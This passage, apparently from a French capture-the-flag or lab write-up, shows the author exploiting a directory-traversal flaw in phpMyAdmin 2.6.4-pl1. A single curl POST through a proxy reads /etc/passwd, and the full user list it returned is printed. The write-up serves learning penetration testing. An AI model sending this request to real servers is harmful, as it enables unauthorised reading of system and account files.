 Quand au `phpMyAdmin` il est configuré sans authentification (il était seulement bloqué par le 403). On y trouve une seule base de données avec une seule table qui n'a aucune information sensible.

## Rétro lasers en action

Il y avait fort à parier que la version du `phpMyAdmin` était vulnérable à une vulnérabilité et c'était le cas : un [exploit existe pour phpMyAdmin 2.6.4-pl1](https://www.exploit-db.com/exploits/1244) de type directory traversal.

L'exploit est écrit en `perl` et je préfère me casser un bras que de l'utiliser alors j'ai juste appliqué ce qu'il fait en commande `curl` :

```shellsession
$ curl -x http://192.168.1.34:3128/ \ 
-XPOST http://www.zincftp.com/phpMyAdmin/libraries/grab_globals.lib.php \
--data "usesubform[1]=1&usesubform[2]=1&subform[1][redirect]=../../../../..//etc/passwd&subform[1][cXIb8O3]=1"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
--- snip ---
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
bind:x:104:111::/var/cache/bind:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:106:115:MySQL Server,,,:/var/lib/mysql:/bin/false
lsanderson:x:1000:114:Lyle Sanderson:/home/lsanderson:/bin/bash
cfinnerly:x:1001:100:Chuck Finnerly:/home/cfinnerly:/bin/bash
ddonnovan:x:1002:100:David Donnovan:/home/ddonnovan:/bin/bash
skrymple:x:1003:100:Shelly Krymple:/home/skrymple:/bin/bash
amckinley:x:1004:100:Agustin Mckinley:/home/amckinley:/bin/bash
cmahong:x:1005:2002::/home/cmahong:/bin/false
lnickerbacher:x:1006:2002::/home/lnickerbacher:/bin/false
jstreet:x:1007:2002::/home/jstreet:/bin/false
rwoo:x:1008:2002::/home/rwoo:/bin/false
kmccallum:x:1009:2002::/home/kmccallum:/bin/false
cjalong:x:1010:2002::/home/cjalong:/bin/false
jsmith:x:1011:2002::/home/jsmith:/bin/false
dhammond:x:1012:2002::/home/dhammond:/bin/false
hmcknight:x:1013:2002::/home/hmcknight:/bin/false
lwestre:x:1014:2002::/home/lwestre:/bin/false
gwelch:x:1015:2002::/home/gwelch:/bin/false
dmoran:x:1016:2002::/home/dmoran:/bin/false
dsummers:x:1017:2002::/home/dsummers:/bin/false
bzimmerman:x:1018:2002::/home/bzimmerman:/bin/false
ncobol:x:1019:2002::/home/ncobol:/bin/false
ddypsky:x:1020:2002::/home/ddypsky:/bin/false
rcropper:x:1021:2002::/home/rcropper:/bin/false
cbergey:x:1022:2002::/home/cbergey:/bin/false
tmartin:x:1023:2002::/home/tmartin:/bin/false
jgacy:x:1024:2002::/home/jgacy:/bin/false
splath:x:1025:2002::/home/splath:/bin/false
evorhees:x:1026:2002::/home/evorhees:/bin/false
rfrost:x:1027:2002::/home/rfrost:/bin/false
ahuxley:x:1028:2002::/home/ahuxley:/bin/false
webmaster:x:1029:2002::/var/www:/bin/false
cmanson:x:1030:2002::/home/cmanson:/bin/false
vftp:x:1031:2002:Virtual FTP User:/dev/null:/bin/false
```
